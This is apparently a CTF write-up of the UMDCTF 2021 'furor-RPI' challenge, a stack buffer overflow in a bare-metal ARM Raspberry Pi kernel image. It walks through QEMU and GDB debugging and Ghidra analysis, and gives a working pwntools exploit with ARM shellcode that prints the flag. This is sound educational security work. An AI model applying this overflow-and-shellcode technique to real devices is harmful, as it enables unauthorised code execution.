


# UMDCTF 2021

## furor-RPI

> Why are we pwning raspberry pi's? I thought ARM is more secure that Intel...
>
> Both files are not required to download!
>
> `bootable-rpi0-phys-furor.img -- bootable image complete with rpi boot binaries/kernel, write-ready to sd card, use standard UART pins`  
> `kernel-rpi0-qemu-furor.img -- only kernel image ready for QEMU v5, load address differs from physical pi load address`
> 
> Helpful things:
>
> `qemu-system-arm -M raspi0 -kernel $(KERN).img -serial null -serial stdio - run kernel in QEMU v5`
>
> BCM2835 datasheet: [https://www.alldatasheet.com/datasheet-pdf/pdf/502533/BOARDCOM/BCM2835.html](https://www.alldatasheet.com/datasheet-pdf/pdf/502533/BOARDCOM/BCM2835.html)
>
> [https://drive.google.com/drive/folders/1AInDT0kYXWbExjaXiHY5C2yPzgnszzYK?usp=sharing](https://drive.google.com/drive/folders/1AInDT0kYXWbExjaXiHY5C2yPzgnszzYK?usp=sharing)
>
> `nc chals4.umdctf.io 7000`
>
> author: WittsEnd2, drkmrin78
>
> score: 4/10
>
> Hint: Once discovered locally, you may need to offset by +76
>
> [furor-RPI-20210418T183121Z-001.zip](furor-RPI-20210418T183121Z-001.zip)

Tags: _pwn_ _arm_ _bof_ _shellcode_ _rpi_


## Summary

Basic BOF with shellcode in stack.  RPi 1995.

That said, this problem was not without challenges:

1. Not Linux.  So no Linux ABI to learn from or use.  No pwn tools help either (well `ropper` worked, but didn't need it) Pure on the metal code.  More like bootsector debugging.
2. ARM.  Something new.  This was my first ARM CTF challenge.
3. For some/most, new tools to use/learn (I used the same tools and methods I used for Linux kernel and DOS CTF challenges).

A quick check of the service:

```
# nc chals4.umdctf.io 7000
VNC server running on 127.0.0.1:5958
Press enter to start or e to exit...


You are accessing a secure device...
If you are not authorized, please GTFO.
Password: blah
blah
Finished
Now exiting
```

Two possible attack vectors, the input to get started and the `Password:` prompt; we'll start with the `Password:` prompt (it's the `Password:` prompt).

Assets:

You're given two files, one is an image you can flash to an RPi and boot up (I did not try this), the other is just the code (`kernel-rpi0-qemu-furor_updated.img`) that runs if you did boot up an RPi.  The author provided the necessary QEMU command line to get started--I used a variation of this.

_So what is `kernel-rpi0-qemu-furor_updated.img` exactly?_

It's 100% pure ARM binary code.  No ELF headers, or compression, or archivers, just code.  It's very small, so I assumed as much, but to be thorough I read up on how to bare-metal program an RPi, created an small program (ELF), used `arm-linux-gnueabihf-objcopy` to create `kernel.img`, and then compared with the `.text` segment in the ELF--they were an exact match.


## Tooling

This is what I used to get through this challenge.

### Build QEMU 5.2 to get `raspi0` support

I have a CTF Docker container based on Ubuntu 20.04 that I use, however the version of QEMU was too old, so I built 5.2 with:

```
wget https://download.qemu-project.org/qemu-5.2.0.tar.xz
tar xvf qemu-5.2.0.tar.xz
cd qemu-5.2.0
mkdir build
cd build
apt-get install -y ninja-build meson libpixman-1-dev
../configure --target-list=arm-softmmu
make -j
make install
```

> You may need more packages on the `apt-get` line, e.g. `build-essential`

This will yield a working QEMU ARM build for this challenge: `/usr/local/bin/qemu-system-arm`


### Install gdb-multiarch

```
apt-get install gdb-multiarch
```

I'd also get [GEF](https://gef.readthedocs.io/en/master/) GDB extensions.


### Setup

Create 3 terminals.

Terminal 0:

```
/usr/local/bin/qemu-system-arm -M raspi0 -kernel kernel-rpi0-qemu-furor_updated.img -serial null -serial tcp::9001,server,nowait -S --gdb tcp::9000
```

This will start up the binary, but will not start execution until you attach GDB and enter `c`, `si`, or `ni`, etc...

Terminal 1:

```
nc localhost 9001
```

This will capture the output and it should be identical to `nc chals4.umdctf.io 7000`.  This will be helpful for scripting the exploit.

Terminal 2:

```
cat <<'EOF' >script
set arch arm
gef-remote -q localhost:9000
EOF
```

The above just makes being lazy easier and only needs to be done once.

Start GDB with GEF:

```
gef -x script
```

And if all went well, you should see:



_Now_ we're in the shit.


## Analysis

### Decompile with Ghidra

Ghidra isn't going to know what to do exactly with `kernel-rpi0-qemu-furor_updated.img` or even detect what it is.

At this dialog click the `...` for Language and find and select ARM LE 32 v6.  RPi AFAIK has always been little-endian (LE), and the Pi Zero (raspi0) specs have it as v6 and 32-bit.



If you see sections of code that did not get disassemble, then right click and select disassemble.  Do that from top to bottom and you'll be all set.

After some testing with the debugger and tracing the code I was able to find `main` and it's functions:

```c
void main(void)
{
  uint uVar1;
  undefined4 local_30;
  undefined auStack44 [44];
  
  setup();
  setup2();
  printline(press_enter_to_start);
  uVar1 = getinput();
  if (uVar1 == 0x65) {
    printline(CR);
  }
  else {
    printline(you_are_accessing_secure);
    printline(if_you_are_not_authorized);
    local_30 = 0;
    memset(auStack44,0,0x24);
    printline(password);
    read((undefined *)&local_30,100);
    printline(finished);
  }
  printline(now_exiting);
  return;
}
```

> Ghidra did not do this for free :-)  I had to annotate all of this by hand.

I guessed on some of the functions like `setup` and `setup2`.  The `memset` and `read` are just what they looked like or functioned as (this isn't Linux).  And the parameters have been renamed to reflect the text they point at.

With this out of the way, it is pretty clear what is going on here, from the top down the program starts, emits `Press enter to start or e to exit...`, then prompts for input, where if then equal to `0x65` (a.k.a. `e`), then a `CR` is emitted, then it drops down to `Now exiting` and that's it.  Otherwise more text is emitted, a buffer (`auStack`) is zeroed out, and then we are prompted for a `Password:`.

Being new to ARM, I'm not 100% sure how their stack frames are setup.  If this were x86_64 I'd just assume since `read` was passed `local_30` (odd, Ghidra could be wrong), then I'd be `0x30` (48) bytes from the return address, so write out 48 bytes of garbage, then exploit, however why don't we just send 100 bytes of garbage and see what we see?

The `return` at the end of `main`:

```assembly
00000414 04 f0 9d e4     ldr        pc,[sp],#0x4
                     -- Flow Override: RETURN (TERMINATOR)
```

By setting a checkpoint at `0x10414` (The base address is at 0x10000, this can be discovered from GDB and it was also disclosed on Discord), then sending our trash (output of `cyclic 100`), we are just one `si` away from a crash:

```
─────────────────────────────────────────────────────────────────────── stack ────
0x0000fffc│+0x0000: 0x6161616c  →  0x6161616c	 ← $sp
0x00010000│+0x0004: 0x6161616d  →  0x6161616d
0x00010004│+0x0008: 0x6161616e  →  0x6161616e
0x00010008│+0x000c: 0x6161616f  →  0x6161616f
0x0001000c│+0x0010: 0x61616170  →  0x61616170
0x00010010│+0x0014: 0x61616171  →  0x61616171
0x00010014│+0x0018: 0x61616172  →  0x61616172
0x00010018│+0x001c: 0x61616173  →  0x61616173
──────────────────────────────────────────────────────────────── code:arm:ARM ────
      0x10408                  ldr    r0,  [pc,  #40]	; 0x10438
      0x1040c                  bl     0x101f0
      0x10410                  add    sp,  sp,  #44	; 0x2c
●→    0x10414                  pop    {pc}		; (ldr pc,  [sp],  #4)
      0x10418                  ldr    r0,  [pc,  #28]	; 0x1043c
      0x1041c                  bl     0x101f0
      0x10420                  b      0x10408
      0x10424                  andeq  r0,  r1,  r8,  lsl #10
      0x10428                  andeq  r0,  r1,  r0,  lsr r5
```

`pop {pc}` is going to pop `0x6161616c` (`laaa` (little-endian)), to find this in our garbage and compute the length:

```
# cyclic 100 | sed 's/laaa.*//' | wc -c
44
```

So, 44 bytes of garbage, then our payload.

_Wait, what payload?_

Yeah, so that was the easy part.

> There was a hint, something about `76` as an offset that completely escaped me (others will write it up, I'm sure).

`printline` above takes an argument of an address to a string, and well there's this:

```
000004f0 55 4d 44        ds         "UMDCTF-{ON_THE_SERVER}\n"
         43 54 46 
         2d 7b 4f 
```

Looking at how `printline` is called:

```
00000408 28 00 9f e5     ldr        r0,[now_exiting]
0000040c 77 ff ff eb     bl         printline
```

Seem pretty clear, get the address of the flag (`0x104f0`) in `r0` and call/jmp to `printline` (`0x101f0`)

### ROPing with ARM

```
ropper -a ARM -r --file kernel-rpi0-qemu-furor_updated.img
```

That will return a bunch of gadgets, but nothing really jumped out at me as immedately useful, probably because I'm new to ARM.

I didn't see any obvious `win` function either for as easy ROP FTW!

Checking `vmmap`:

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start      End        Offset     Perm Path
0x00000000 0xffffffff 0x00000000 rwx /tmp/gef/1//proc/1/exe
```

Shows that memory is executable, so perhaps some shellcode instead.


### ARM Shellcode

IMHO the quickest way to to learn as new assembly is to write it in C and disassemble it.  But I already have this challenge's code in Ghidra disassembled, so I just started to read it while tracing with GDB and finally ended up with the only two instructions I'd need:

```
pop {r0}
pop {pc}
```

The exploit is rather simple, set the PC down stack a bit, followed by the locations of the flag and the `printline` function, pop them into `r0` and `pc`, and well, that's it really.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

context.arch = 'arm'

if args.REMOTE:
    p = remote('chals4.umdctf.io', 7000)
else:
    p = remote('localhost', 9001)

p.sendlineafter('exit...','')

payload  = b''
payload += 44 * b'A'
payload += p32(0x10000 + 0x8)   # pc
payload += p32(0x104f0)         # flag
payload += p32(0x101f0)         # printline
payload += asm('pop {r0}; pop {pc};')

p.sendlineafter('Password:',payload)
p.recvuntil('exiting')
print(p.recvuntil('}').decode())
```

Setting a breakpoint at `0x10414` and testing the attack yields:

```
─────────────────────────────────────────────────────────────────────── stack ────
0x0000fffc│+0x0000: 0x00010008  →  0xe49d0004  →  0xe49d0004	 ← $sp
0x00010000│+0x0004: 0x000104f0  →  0x43444d55  →  0x43444d55
0x00010004│+0x0008: 0x000101f0  →  0xe5d03000  →  0xe5d03000
0x00010008│+0x000c: 0xe49d0004  →  0xe49d0004
0x0001000c│+0x0010: 0xe49df004  →  0xe49df004
0x00010010│+0x0014: 0xe3520000  →  0xe3520000
0x00010014│+0x0018: 0x0a000003  →  0x00000000  →  0xe28fe004  →  0xe28fe004
0x00010018│+0x001c: 0xe4810008  →  0xe4810008
──────────────────────────────────────────────────────────────── code:arm:ARM ────
      0x10408                  ldr    r0,  [pc,  #40]	; 0x10438
      0x1040c                  bl     0x101f0
      0x10410                  add    sp,  sp,  #44	; 0x2c
●→    0x10414                  pop    {pc}		; (ldr pc,  [sp],  #4)
      0x10418                  ldr    r0,  [pc,  #28]	; 0x1043c
      0x1041c                  bl     0x101f0
      0x10420                  b      0x10408
      0x10424                  andeq  r0,  r1,  r8,  lsl #10
      0x10428                  andeq  r0,  r1,  r0,  lsr r5
```

The next instruction to run will `pop {pc}` (this is `main`'s `return`), and that will pop the `0x00010008` from the top of the stack moving the program counter to _our_ `pop {r0}` instruction that will then pop `0x000104f0` (location of flag) from the stack, followed by a `pop {pc}` that will then pop `0x000101f0` (location of `printline`) that will then jump to `printline` and, well, print the flag.

> Try not to get confused with `sp` vs `pc` pointers.  Carefully track both.

Output:

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to chals4.umdctf.io on port 7000: Done

UMDCTF-{ARM_L0V3s_R0P}
```

ARM loves shellcode more.